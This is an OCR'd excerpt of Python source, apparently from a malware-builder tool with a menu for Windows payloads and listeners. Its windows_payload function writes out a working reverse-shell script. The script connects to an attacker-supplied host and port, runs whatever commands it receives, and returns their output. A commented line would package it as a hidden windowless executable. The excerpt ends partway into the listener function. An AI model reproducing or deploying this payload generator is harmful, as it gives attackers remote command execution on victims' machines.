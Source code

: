             print(f"{Fore.RED}\nWrong Key: {command}{Fore.WHITE}")
            time.sleep(0.5)
            try_ = input("Press Enter...")
            self.windows_mal() 
    def windows_payload(self):
        self.clear()
        self.banner()
        host = input("\nEnter Host: ")
        port = input("Enter Port: ")
        
        payload_name = input("Enter Payload Name: ")
        payload_code = f"""
from socket import *
from subprocess import getoutput
s = socket(2,1)

s.connect(('{host}',{port}))

print('Connected!')

while True:
    try:
        data = s.recv(123456789).decode()
        result = getoutput(data)
        s.send(result.encode())
    except:
        pass
s.close()

"""
        f = open(f"{payload_name}.py","w")
        f.write(payload_code)
        f.close()
        # exe_out = subprocess.getoutput(f"pyinstaller --onefile {payload_name}.py --noconsole")
        # print(exe_out)
        print(f"\nYour Payload {payload_name} Created!\n")
        while True:
            try_4 = input("Make Payload Again? [y/n] ")
            if try_4 == "y":
                self.windows_payload()
            elif try_4 == "n":
                break
            else:
                continue
        self.windows_mal()

    def windows_listener(self,host="",port=""):
        self.clear()
        self.banner()
        host = input("\nEnter Host: ")
        port = input("Enter Port: ")
        ip = socket.gethostbyname(host)
        